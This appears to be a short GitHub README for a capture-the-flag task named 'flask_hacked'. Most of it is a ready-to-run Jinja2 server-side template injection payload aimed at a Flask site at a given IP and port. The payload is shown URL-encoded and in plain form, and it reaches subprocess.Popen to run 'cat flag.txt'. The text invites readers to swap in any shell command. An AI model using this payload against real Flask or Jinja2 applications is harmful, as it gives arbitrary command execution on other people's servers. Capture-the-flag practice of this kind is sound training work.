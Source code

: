 # flask_hacked
# Hi i told you about how to hack flask site
Already command:   `http://167.172.55.94:31138/%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D`

The first part is write URL 
>`167.172.55.94:31138`

Second part is write exploit and start bash command
>`%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D` URL encode

>`{{"".__class__.__mro__[1].__subclasses__()[414] ("cat flag.txt",shell=True,stdout=-1).communicate()}}` ASCII 

`"cat flag.txt"` is a bash command. You can write your command.

Solve this task!
